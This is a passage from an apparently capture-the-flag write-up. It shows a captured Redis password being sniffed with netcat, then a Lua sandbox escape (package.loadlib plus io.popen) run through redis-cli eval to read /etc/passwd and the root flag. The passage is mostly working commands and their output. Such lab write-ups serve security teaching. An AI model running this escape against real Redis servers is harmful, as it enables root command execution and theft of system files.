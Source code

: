 ```bash
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

It looks like a password is needed (see first line), so we need to figure out what the password is. We download the file to our own system: 

```bash
scp -i id_rsa dan_smith@10.10.11.172:/usr/local/bin/redis_connector_dev redis_connector_dev
```

Next we execute and try to intercept the traffic with netcat:

```bash
$ nc -lnvp 6379                    
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 53700
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

We can now use the redis-cli with the password: 

```bash
dan_smith@shared:~$ redis-cli -h 127.0.0.1 -p 6379 -a 'F2WHqJUz2WEz=Gqq'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /etc/passwd", "r"); local res = f:read("*a"); f:close(); return res' 0
"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nsystemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:104:110::/nonexistent:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\njames_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nmysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false\ndan_smith:x:1001:1002::/home/dan_smith:/bin/bash\nredis:x:107:114::/var/lib/redis:/usr/sbin/nologin\n"
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
"81****************************ae\n"
127.0.0.1:6379>
```
